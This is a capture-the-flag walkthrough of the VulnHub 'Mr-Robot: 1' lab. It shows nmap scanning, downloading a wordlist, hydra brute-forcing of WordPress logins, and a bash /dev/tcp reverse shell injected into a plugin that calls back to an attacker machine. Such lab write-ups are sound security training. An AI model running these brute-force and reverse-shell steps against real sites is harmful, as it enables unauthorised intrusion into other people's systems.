:::::::::::::::::::: page
# Mr-Robot : 1 {#mr-robot-1 .title}

\

## 

## Mr-Robot : 1

- **[Mr-Robot : 1]{style="color:#cdab8f;"}** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/mr-robot-1,151/>



- Open ova file .
- Then click finish .
- Start the machine .

1.  [Network Scanning]{style="color:#986a44;"} :

- Find the machine IP :

::: codebox
    nmap -sn 192.168.31.0/24
:::



- Find available port in the machine :

::: codebox
    nmap -v -p- 192.168.31.157
:::



- IP visit in browser : <http://192.168.31.157/>
  <https://192.168.31.157/>

<!-- -->

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

::: codebox
    nmap -v -p 80 443 -sT -sV -A --script=http-enum.nse 192.168.31.157
:::



1.  [Web Enumeration]{style="color:#986a44;"} :

- Found URLs : <http://192.168.31.157/wp-login.php>



<http://192.168.31.157/robots.txt>



::: codebox
    https://192.168.31.157/fsocity.dic
:::

::: codebox
    http://192.168.31.157/key-1-of-3.txt
:::

- Key download :

::: codebox
    wget http://192.168.31.157/key-1-of-3.txt
:::

- Check :

::: codebox
    cat key-1-of-3.txt 
:::

- 
- Wordlist Download :

::: codebox
    wget http://192.168.31.157/fsocity.dic
:::

- Check size :

::: codebox
    wc -l fsocity.dic
:::

 Ye large password wordlist h .

1.  [Username Enumeration]{style="color:#986a44;"} :

- Make a user file and fill the fsocity.dic file content :

::: codebox
    nano user.txt
:::

- Extract unique usernames from fsocity.dic :

::: codebox
    cat user.txt | sort -u | uniq > small-user.txt
:::

- Run hydra to find the valid username ( Username Brute Force ) :

::: codebox
    hydra -L small-user.txt -p small-user.txt 192.168.31.157 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"
:::



- Found valid username :

::: codebox
    elliot
:::

1.  [Password Brute-Force (WordPress)]{style="color:#986a44;"} :

- Run hydra to find the valid password with the valid username :

::: codebox
    hydra -l elliot -P small-user.txt 192.168.31.157 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect" -V
:::



- Found valid password :

::: codebox
    ER28-0652
:::

1.  [Login to WordPress]{style="color:#986a44;"} :

- URL : http://192.168.31.157/wp-login.php

<!-- -->

- Then : Username : elliot Password : ER28-0652



- Login the user : <http://192.168.31.157/wp-admin/>

1.  [Reverse Shell via Plugin Editor]{style="color:#986a44;"} :

- Go to Plugins .
- Then Go to Editor .
- Then search Hello Dolly .

<!-- -->

- Edit the Hello Dolly plugin and add :

::: codebox
    exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.31.206/443 0>&1'");
:::

 Update the plugin.

1.  [Get Reverse Shell]{style="color:#986a44;"} :

- Start listener on attacker machine :

::: codebox
    nc -lvnp 443
:::

- Go to installed plugins .
- Click the Activate .



- Then activate Hello Dolly plugin in WordPress ➝ shell is received.


::::::::::::::::::::
